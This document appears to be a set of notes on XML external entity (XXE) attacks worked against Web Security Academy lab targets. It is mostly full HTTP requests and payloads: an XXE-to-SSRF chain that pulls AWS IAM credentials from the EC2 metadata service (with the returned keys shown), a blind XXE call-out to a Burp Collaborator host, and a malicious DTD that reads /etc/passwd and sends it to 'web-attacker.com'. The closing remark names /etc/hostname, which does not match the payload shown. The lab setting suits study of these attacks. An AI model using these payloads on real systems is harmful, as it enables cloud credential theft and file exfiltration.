 # Attacks

### Using XXE to exfiltrate secret key from EC2 instance: Chained XXE + SSRF

`Malicious POST request`

```bash
POST /product/stock HTTP/1.1
Host: ac671fb81fcc504080b042be005f0023.web-security-academy.net
Connection: close
Content-Length: 223
Sec-Fetch-Mode: cors
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_14_6) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/76.0.3809.100 Safari/537.36
Content-Type: application/xml
Accept: */*
Origin: https://ac671fb81fcc504080b042be005f0023.web-security-academy.net
Sec-Fetch-Site: same-origin
Referer: https://ac671fb81fcc504080b042be005f0023.web-security-academy.net/product?productId=10
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Cookie: session=XXXXXXXXXXXXXXXXXXXX

<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://169.254.169.254/latest/meta-data/iam/security-credentials/admin"> ]><stockCheck><productId>&xxe;</productId><storeId>1</storeId></stockCheck>
```

`Response:`

```bash
"Invalid product ID: {
  "Code" : "Success",
  "LastUpdated" : "2019-08-22T16:39:15.242880Z",
  "Type" : "AWS-HMAC",
  "AccessKeyId" : "74kLixnlUZcsLknsyMq5",
  "SecretAccessKey" : "QRN6iUdJkj6CA5yt82cF0jfdh5DIgKx3RDQq5pBZ",
  "Token" : "kYcYbyXcZU7137kRXZj9mKrbWYvjXpd06s7renO6SYBYoTKBOSnQo3Tiq6GztUoOIl67AH37YZNZlvtxkvAVFygPPW54n49jNY2FvEGFVp6Jj6Pdgs6mBLcChJ6JX7CDbAe7g3YqDhYBt65PnJYVFuO7VSgNgrx8KYGWdf1l0GwGjfEuFjocZYEojx57XP8nGTW9srH1n0pZAk8GANWS62XUhZE4V1gmn7yvcnY3ORQWOHjJEb46KKNG1yPJgOY8",
  "Expiration" : "2025-08-20T16:39:15.242880Z"
}"
```

### Blind XXE

`Request`

```bash
<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE stockCheck [<!ENTITY xxe SYSTEM "http://e2h7bnoif4z2eoxetblzsjdel5r1fq.burpcollaborator.net">]><stockCheck><productId>&xxe;</productId><storeId>1</storeId></stockCheck>
```

`Response`

```bash
HTTP Request through the Burp Collab. Window
```

### Blind XXE Using Param. Entities to exfiltrate data

`Payload`

`https://acc51fc41e40cc5c80f320ff01f500d0.web-security-academy.net/exploit`

```xml
# this is our malicious dtd hosted in our server
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % eval "<!ENTITY &#x25; exfiltrate SYSTEM 'http://web-attacker.com/?x=%file;'>">
%eval;
%exfiltrate;
```

`Request`

```bash
POST /product/stock HTTP/1.1
Host: acb51f871ea6cc14807d20680098001c.web-security-academy.net
Connection: close
Content-Length: 228
Sec-Fetch-Mode: cors
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_14_6) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/76.0.3809.100 Safari/537.36
Content-Type: application/xml
Accept: */*
Origin: https://acb51f871ea6cc14807d20680098001c.web-security-academy.net
Sec-Fetch-Site: same-origin
Referer: https://acb51f871ea6cc14807d20680098001c.web-security-academy.net/product?productId=1
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Cookie: session=xrE9xNnbe9G6HNdNkxEzu7RMWW3a1LjZ

<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE foo [<!ENTITY % xxe SYSTEM "https://acc51fc41e40cc5c80f320ff01f500d0.web-security-academy.net/exploit"> %xxe;]><stockCheck><productId>1</productId><storeId>1</storeId></stockCheck>
```

The main part of the request is at the bottom where we call our malicious `dtd` to exfiltrate data, once the `XML` parser makes the request we should now have access to the data it grabbed because of the call in out payload to `SYSTEM file:///etc/hostname`
